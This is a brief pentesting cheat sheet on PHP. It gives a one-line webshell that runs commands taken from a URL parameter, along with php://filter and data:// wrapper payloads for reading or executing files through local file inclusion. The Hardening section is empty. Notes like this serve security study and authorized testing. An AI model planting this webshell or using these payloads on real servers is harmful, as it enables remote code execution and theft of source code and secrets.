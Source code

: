 **Tags:** #type/tech-specific

---
# Fundamentals
execute system command in php: `<?php echo system('uname -a'); ?>`
simple php webshell: `<?php echo system($_GET['cmd']); ?>`
takes shell command in the URL: upload file and then use `[url to file]?cmd=<command>`
# Pentesting
## Wrappers
There are a lots of [different wrappers](https://www.php.net/manual/en/wrappers.php). Most interesting are:
#### php://filter
When using LFI, display the (encoded) file content rather than to execute it.
Usage:
- Include plaintext file: `php://filter/ressource=<path-to-file>`
- Include encoded file: `php://filter/convert.base64-encode/resource=<path-to-file>`
#### php://data
When using LFI, execute some (encoded) data.
Only possible when [allow_url_include](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include) is set. Its not set per default.
Usage:
- Execute plaintext data: `data://text/plain,<php-snippet>`
- Execute encoded data: `data://text/plain;base64,<base64-encoded-php-snippet><arguments used by the snippet>`
# Hardening
